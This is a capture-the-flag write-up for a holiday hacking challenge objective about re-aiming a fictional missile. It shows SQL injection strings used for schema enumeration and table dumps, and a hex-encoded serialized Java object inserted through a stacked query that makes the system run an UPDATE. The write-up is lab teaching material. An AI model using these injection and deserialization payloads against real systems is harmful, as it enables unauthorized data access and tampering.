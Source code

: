 # OBJECTIVE 22 - Missile Diversion #
_Completed by 1.88% of challenge participants_
## OBJECTIVE : ##
>Thwart Jack’s evil plan by re-aiming his missile at the Sun.
#  

## HINTS: ##
<details>
  <summary>Hints provided for Objective 22</summary>
  
>-  Wombley thinks he may have left the admin tools open. I should check for those if I get stuck.
</details>

#  

## PROCEDURE : ##
This challenge continues where OBJECTIVE 21 left off.  We are still connected to the **NanoSat MO Base Station Tool** and need to figure out how to re-aim a missile that is currently aimed at Earth.

After some playing-around with the **NanoSat MO Base Station Tool** I found that by going to the **Action Service** tab, selecting the `Debug` action,  clicking on **submitAction** and clicking **Edit** I was able to pass on SQLI test strings that seemed to be parsed by the program.  For example if I enter `OR 1=1;` as value string then go to the **Parameter Service** tab,  select `Debug` and click on **getValue**, I get the output:  `rawValue: VERSION() OR 1=1: 1`

Using this method I was able to get some interesting information which I enumarted in the following table:

SQLI | String	Response
:---|:---
OR 1=1;|	VERSION() OR 1=1:1
;	VERSION():| 11.2.2-MariaDB-1:11.2.2+maria~ubu2204
=1 order by 1,2|	Unknow column ‘2’ in ‘order clause’
=1 order by 1	|VERSION()=1:0
; select table_name from information_schema.tables|	Output is very long and needs to be captured using Wireshark as per the procedure followed in Objective 20 – Camera Access but gives us a list of all the tables in the schema which is very useful to enumerate the rest.
; select * from target_coordinates|	Id: 1 \| lat: 1.14514 \| lng: -145.262
; select * from pointing_mode	|id: 1 \| numerical_mode: 0 \|
; select * from pointing_mode_to_string|	Id: 1 \| numerical_mode: 0 \| str_mode: Earth Point Mode \| str_desc: When pointing_mode is 0, targeting system applies the target_coorinates to earth. \| id: 2 \| numerical_mode: 1 \| str_mode: Sun Point Mode \| str_desc: When pointing_mode is 1, targeting system points at the sun, ignoring the coordinates.
; select * from messaging	|id: 1 \| msg_type: RedAlphaMsg \| msg_data: RONCTTLA \| id: 2 \| msg_type: MsgAuth \| msg_data: 220040DL \| id: 3 \| msg_type: LaunchCode \| msg_data: DLG2209TVX \| id: 4 \| msg_type: LaunchOrder \| msg_data: CONFIRMED \| id: 5 \| msg_type: TargetSelection \| msg_data: CONFIRMED \| id: 6 \| msg_type: TimeOnTargetSequence \| msg_data: COMPLETE \| id: 7 \| msg_type: YieldSelection \| msg_data: COMPLETE \| id: 8 \| msg_type: MissileDownlink \| msg_data: ONLINE \| id: 9 \| msg_type: TargetDownlinked \| msg_data: FALSE \| 
; select * from sattelite_query	|**[JAVA CODE](Code/SatelliteQueryFileFolderUtility.java)**
; show columns from satellite_query;|	COLUMN_NAME: jid \| COLUMN_TYPE: int(11) \| IS_NULLABLE: NO \| COLUMN_KEY: PRI \| COLUMN_DEFAULT: null \| EXTRA: auto_increment \|COLUMN_NAME: object \| COLUMN_TYPE: blob \| IS_NULLABLE: YES \| COLUMN_KEY: COLUMN_NAME: results \| COLUMN_TYPE: text \| IS_NULLABLE: YES \| COLUMN_KEY:convertedValue: null COLUMN_DEFAULT: null \| EXTRA: \| COLUMN_DEFAULT: null \| EXTRA: \|
; show columns from pointing_mode|	COLUMN_NAME: id \| COLUMN_TYPE: int(11) \| IS_NULLABLE: NO \| COLUMN_KEY: PRI \| COLUMN_DEFAULT: null \| EXTRA: auto_increment \| COLUMN_NAME: numerical_mode \| COLUMN_TYPE: int(11) \| IS_NULLABLE: YES \| COLUMN_KEY: \| COLUMN_DEFAULT: null \| EXTRA: \|

First of all – hats off for including a [Wargames reference](https://i.gifer.com/7Mzk.gif) in the `messaging` table.  Secondly by using SQL Injection it was possible to retrieve a lot of useful information.  Namely:
-	The coordinates are useless to us and we do nto need to be concerned with them.
-	The table `pointing_mode` determines where the missile is pointed and by changing the value stored under column `numerical_mode` from `0` to `1` we can re-aim the missiles to the sun.
-	The table `sattelite_query` has some kind of query in the object column and under results there is [some Java code](Code/SatelliteQueryFileFolderUtility.java)

I pasted the string I found in `satellite_query` as well as the java code in [ChatGPT](https://chat.openai.com/) and from there I learned that the string in the object column is a **serialized java object**.  The Java code retrieved from the results column takes this serialised object as it’s input and parses a SQL query, SQL update or retrieves a file.

I prompted ChatGPT to create a java program that would accept a SQL command as input and would use the [Java code I retrieved](Code/SatelliteQueryFileFolderUtility.java) to prepare a hex string that can be fed back to it as an input.  Using [this program](Code/serializer.java) I created a hex string for the SQL command ``UPDATE pointing_mode SET numerical_mode = 1 WHERE Id = 1``.
I then included the resulting serialized hex in a SQL command to add it as a new entry in `satellite_query` and I pasted this into the `debug` field similarly to how I exfiltrated the database info earlier:
```
; INSERT INTO satellite_query (jid, object)
VALUES (2, 0xaced00057372001f536174656c6c697465517565727946696c65466f6c6465725574696c69747912d4f68d0eb392cb0200035a0007697351756572795a000869735570646174654c000f706174684f7253746174656d656e747400124c6a6176612f6c616e672f537472696e673b7870010174003855504441544520706f696e74696e675f6d6f646520534554206e756d65726963616c5f6d6f6465203d2031205748455245204964203d2031);
```
(NOTE the preceeding `;` and the `0x` before the hex string)

This updated the value of `numerical_mode` in `pointing_mode` from `0` to `1` thus pointing the missile safely towards the sun and away from the Earth.

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2023/assets/60655500/74e7b554-6a65-421d-8e81-f577bad6a9ab)


This write-up is almost ridiculously short for a challenge that took me **close to seven hours** to complete!  

